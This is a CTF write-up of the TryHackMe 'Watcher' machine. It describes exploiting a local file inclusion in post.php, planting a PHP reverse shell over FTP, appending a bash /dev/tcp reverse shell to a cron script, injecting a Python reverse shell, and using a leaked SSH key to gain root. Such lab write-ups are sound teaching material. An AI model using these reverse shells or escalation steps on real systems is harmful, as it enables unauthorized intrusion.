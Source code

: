 ![](watcher_desc.png)

#### Watcher is a medium-level box on tryhackme which, as the description states, required numerous steps of priviledge escalation which was pretty fun to do. I had managed to root this on my own, without asking for help, which made it pretty satisfying for me.

## Enumeration
#### I'm making it a habit to add the IP of the machine to the /etc/hosts file. Starting off with a quick nmap scan, we see that there are three ports open on the machine.
![](watcher_1_nmap.png)

#### Since we don't have credentials for ssh and ftp, we explore the http page first. It was a page with a corkplacemats catalog. While dirbuster was running on the background, I proceeded to do a manual check for common directories/files and stumbled upon robots.txt.
![](watcher_2_robots.png)

#### Here we have our first flag and a secret file which we can't access. Opening a page on any corkplacemat redirects us to a url that is passed as an argument to a php code. This can lead to a local file inclusion vulnerability which proved to be the case.

![](watcher_5_lfi.png)

#### With this LFI vuln, we can now read the secret file and it presents us the ftp creds + the ftp directory.
```
watcher.thm/post.php?post=secret_file_do_not_read.txt
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ----------
[REDACTED]
```

#### When we login to the ftp server, we have the second flag waiting for us and we find out that we can write to the files directory.

![](watcher_6_ftp.png)

#### The plan after this was to upload a php reverse shell to the files directory then leverage the LFI again to access the file and pop a shell on our netcat listener. Doing a quick find command afterwards will reveal the third flag and the location of the other flags.

![](watcher_7_findflags.png)

## Tony
#### We can't cd into the directories of Mat and Will, but we can for Tony, so that's the first step for our privesc. On Tony's home directory, we have the 4th flag, a note, and a jobs directory which contains some bash script. Trying to simply read the flag presents us with a permission denied response since our user is still www-data. Checking our sudo permissions reveals that we can run any command as tony.

```
www-data@watcher:/home/toby$ cat flag_4.txt
cat: flag_4.txt: Permission denied

www-data@watcher:/home/toby$ sudo -l
[...]
User www-data may run the following commands on watcher:
	(toby) NOPASSWD: ALL

www-data@watcher:/home/toby$ sudo -u toby cat flag_4.txt
FLAG{redacted}

www-data@watcher:/home/toby$ cat note.txt
Hi Toby,
I've got the cron jobs set up now so don't worry about getting that done.
Mat
```

#### In the note, mat mentions something about cronjobs so I checked /etc/crontab and we see that the script in the toby/jobs directory runs as the user mat. 

![](watcher_8_crontab.png)

#### We can simply append a bash reverse shell payload to escalate our user to mat.

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
bash -i >& /dev/tcp/10.10.211.212/4243 0>&1
```

![](watcher_10_usermat.png)

## Mat
#### From here we can get the fifth flag. Checking the other files in the directory reveals the same pattern such as with toby: we are left with a note and this time a vulnerable python script.

```
mat@watcher:~$ cat note.txt
Hi Mat,
I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.
Will

mat@watcher:~$ sudo -l
[...]
User mat may run the following commands on watcher:
	(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```
##### will_script.py
![](watcher_12_script.png)
##### cmd.py
![](watcher_13_cmd.png)

#### So we have the capability to run as a higher-priviledged user using the script which simply takes an argument from the command line and executes a command based on the choice. But what's the vulnerability here?

#### I think the intended way was to do a module injection attack by making a fake os.py script in the same directory so that python will import this instead of the real os module. But what I did was to simply write a python reverse shell payload to one of the choices in the cmd.py script
![](watcher_14_cmdpayload.png)

#### Running the script as will spawns yet another shell for us.
```
mat@watcher:~$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1

#: on another listener
root@root:~# nc -lvnp 4244
will@watcher:~$ 
```

## Will
#### After getting the sixth flag, checking the groups of will reveals a rather uncommon group named `adm`. As running some privesc scripts returned nothing important, I decided to find all the files owned by the adm group.

![](watcher_15_adm.png)

#### So far, the most interesting one is the /opt/backups/key.b64 file. I then started an http server and retrieved the file; after decoding I found out that it was an ssh private key. We can now use this private key to ssh as the root user.

![](watcher_16_root.png)